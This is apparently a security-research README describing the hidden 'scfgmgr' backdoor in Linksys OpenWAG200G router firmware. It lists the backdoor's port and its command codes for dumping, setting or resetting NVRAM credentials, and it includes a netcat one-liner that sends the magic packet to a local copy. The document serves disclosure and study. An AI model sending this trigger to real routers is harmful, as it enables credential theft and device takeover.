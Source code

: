 # Linksys OpenWAG200G scfgmgr backdoor
- **Type**: hidden command
- **Affected versions**: multiple routers (see [reference](#reference))

## Backdoor
The executable `scfgmgr` contained in the firmware at `/usr/sbin/scfgmgr` is a server listening on
port 64639/TCP. The port number may vary between different versions. Upon receiving a packet
starting with the magic string `"MMcS"` (or `"ScMM"`, depending on the endianness), it interprets
the following 4 bytes as a command:
- `0x0001`: dump the NVRAM (including credentials)
- `0x0002`: get the value of the NVRAM entry (specified in the sent packet)
- `0x0003`: set the NVRAM entry to a value (both specified in the sent packet)
- `0x0004`: commit NVRAM
- `0x000b`: reset NVRAM to default settings (including credentials)

## Triggering the backdoor
First, we need to copy the file used as a stand-in for the actual NVRAM to `/tmp`:
```console
$ cp ./nvram /tmp/
```
Then, we need to start up the `scfgmgr` binary (e.g., with the _backdoored_ variant):
```console
$ ./backdoored/scfgmgr
```
In a separate terminal, we can trigger the backdoor (e.g., to dump the NVRAM):
```console
$ #             | command      | payload size  |
$ echo -en "MMcS\x01\x00\x00\x00\x00\x00\x00\x00" | nc localhost 64639
... [NVRAM dump] ...
```

## Reference
<https://github.com/elvanderb/TCP-32764>
